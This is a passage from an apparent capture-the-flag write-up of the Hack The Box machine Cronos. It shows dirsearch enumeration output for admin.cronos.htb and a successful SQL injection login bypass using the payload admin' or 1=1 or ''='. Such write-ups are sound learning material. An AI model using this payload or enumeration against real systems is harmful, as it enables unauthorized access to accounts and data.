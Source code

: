 * However, I am unable to find anything useful from this at first.

#### Dirsearch of admin.cronos.htb:

```
Target: <http://admin.cronos.htb/>

[20:46:54] Starting: 
[20:46:57] 403 -  302B  - /.ht_wsr.txt                                     
[20:46:58] 403 -  305B  - /.htaccess.bak1                                  
[20:46:58] 403 -  305B  - /.htaccess.orig
[20:46:58] 403 -  305B  - /.htaccess.save
[20:46:58] 403 -  307B  - /.htaccess.sample
[20:46:58] 403 -  305B  - /.htaccess_orig
[20:46:58] 403 -  303B  - /.htaccess_sc
[20:46:58] 403 -  306B  - /.htaccess_extra
[20:46:58] 403 -  303B  - /.htaccessBAK
[20:46:58] 403 -  303B  - /.htaccessOLD
[20:46:58] 403 -  304B  - /.htaccessOLD2                                   
[20:46:58] 403 -  296B  - /.html
[20:46:58] 403 -  295B  - /.htm
[20:46:58] 403 -  305B  - /.htpasswd_test
[20:46:58] 403 -  302B  - /.httr-oauth
[20:46:58] 403 -  301B  - /.htpasswds
[20:46:58] 403 -  295B  - /.php                                            
[20:46:58] 403 -  296B  - /.php3                                           
[20:47:10] 200 -    0B  - /config.php                                       
[20:47:14] 200 -    2KB - /index.php/login/                                 
[20:47:14] 200 -    2KB - /index.php                                        
[20:47:16] 302 -    0B  - /logout.php  ->  index.php                        
[20:47:22] 403 -  304B  - /server-status                                    
[20:47:22] 403 -  305B  - /server-status/
```

* config.php does not have any data in it unfortunately.

![Login page for admin.cronos.htb](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/d6a48ef1-a94e-4cc3-8c03-caaaea65aa97/Untitled.png)

Login page for admin.cronos.htb

* Since we see a login page, I automatically attempt SQLi

[The Ultimate SQL Injection Cheat Sheet](https://www.hackingloops.com/sql-injection-cheat-sheet/)

* username: admin' or 1=1 or ''=’
* password: password

```
admin'  or 1=1 or ''='
```

![SQLi Successful Attempt](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/9ee2c035-9eb8-404d-91ce-dd68dd8674bc/Untitled.png)

SQLi Successful Attempt

#### We gain access to welcome.php
